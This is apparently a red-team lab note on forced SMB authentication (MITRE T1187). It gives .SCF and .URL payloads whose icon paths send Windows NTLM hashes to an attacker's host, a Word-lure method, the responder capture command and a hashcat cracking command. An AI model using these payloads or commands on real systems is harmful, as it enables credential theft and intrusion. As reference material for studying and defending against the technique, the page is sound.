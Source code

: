 ```yaml
---
description: 'Credential Access, Stealing hashes'
---
```


# T1187: Forced Authentication

## Execution via Hyperlink to an SMB server

Attacker creates a fake MS Word document that has a hyperlink to attackers server where a `responder` is listening on port 445 and will be capturing the victim's `NetNTLMv2` hash if they click the dodgy link in the below document:

![](../.gitbook/assets/forced-auth-word.png)

{% file src="../.gitbook/assets/totes-not-a-scam.docx" caption="Forced SMBv2 Authentication - MS Word File" %}

Attacker starts a responder so he can receive incoming SMB authentication request in order to capture the victim's hashes:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
responder -I eth1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Attacker sends the malicious document to the unsuspectim victim and convinces them to click the link. Once they click the link in the document, `responder` on the attacker's system captures victim's hash:

![](../.gitbook/assets/forced-auth-hashes.png)

Once attacker got the hash, he can try and crack it using hashcat:

```csharp
hashcat -m5600 /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.0.0.2.txt /usr/share/wordlists/rockyou.txt --force
```

Success, the password is cracked:

![](../.gitbook/assets/forced-auth-cracked.png)

Using the cracked passsword to get a shell on the victim system:

![](../.gitbook/assets/forced-auth-shell%20%281%29.png)

## Execution via .SCF

Place the below `fa.scf` file on an attacker controlled machine at `10.0.0.7` in a shared folder `tools`

{% code-tabs %}
{% code-tabs-item title="\\\\10.0.0.7\\tools\\fa.scf" %}
```csharp
[Shell]
Command=2
IconFile=\\10.0.0.5\tools\nc.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% file src="../.gitbook/assets/fa.scf" caption="fa.scf" %}

An victim user `low` then opens the share `\\10.0.0.7\tools`, `fa.scf` gets executed and the user's hashes are sent to the attackers machine:

![victim opens \\10.0.0.7\tools, fa.scf executes and gives away low&apos;s hashes](../.gitbook/assets/forced-auth-shares.png)

![user&apos;s low hashes were received by the attacker](../.gitbook/assets/forced-auth-scf.png)

What's interesting with the `.scf` attack is that the file could easily be downloaded with a browser and as soon as the victim opens the Downloads folder, the hashes are stolen:

![](../.gitbook/assets/forced-auth-downloads.png)

## Execution via .URL

{% code-tabs %}
{% code-tabs-item title="c:\\link.url@victim" %}
```csharp
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.0.0.5\%USERNAME%.icon
IconIndex=1
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
responder -I eth1 -v
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once user navigates to the C:\ where `link.url` file is placed, the file will try to authenticate to our malicious SMB listener on `10.0.0.5` \(attacker machine\) that will capture user's NTLM hashes:

![](../.gitbook/assets/forced-authentication-url.gif)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1187\",\"type\":\"link\",\"title\":\"Forced Authentication - ATT&CK for Enterprise\"}" %}

[http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf](http://www.defensecode.com/whitepapers/Stealing-Windows-Credentials-Using-Google-Chrome.pdf)

{% embed data="{\"url\":\"https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/\",\"type\":\"link\",\"title\":\"You Can Steal Windows Login Credentials via Google Chrome and SCF Files\",\"description\":\"Just by accessing a folder containing a malicious SCF file, a user will unwittingly share his computer\'s login credentials with an attacker via Google Chrome and the SMB protocol.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.bleepstatic.com/favicon/bleeping.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://www.bleepstatic.com/content/hl-images/2017/05/16/WindowsPassword.jpg\",\"width\":1250,\"height\":525,\"aspectRatio\":0.42}}" %}

{% embed data="{\"url\":\"https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/\",\"type\":\"link\",\"title\":\"SMB Share – SCF File Attacks\",\"description\":\"SMB is a protocol which is widely used across organisations for file sharing purposes. It is not uncommon during internal penetration tests to discover a file share which contains sensitive informa…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestlab.files.wordpress.com/2017/12/metasploit-smb-relay-attack.png\",\"width\":724,\"height\":401,\"aspectRatio\":0.5538674033149171}}" %}

{% embed data="{\"url\":\"https://medium.com/@markmotig/a-better-way-to-capture-hashes-with-no-user-interaction-by-markmo-bd1569bfa208\",\"type\":\"link\",\"title\":\"A better way to capture hashes with no user interaction by @\_markmo\_\",\"description\":\"I found a better way to capture hashes from a post by @insertscript on twitter\",\"icon\":{\"type\":\"icon\",\"url\":\"https://cdn-images-1.medium.com/fit/c/304/304/1\*8I-HPL0bfoIzGied-dzOvA.png\",\"width\":152,\"height\":152,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://cdn-images-1.medium.com/max/1444/1\*fCcNzzty8DFieV3Rvc6JBA.png\",\"width\":722,\"height\":206,\"aspectRatio\":0.2853185595567867}}" %}

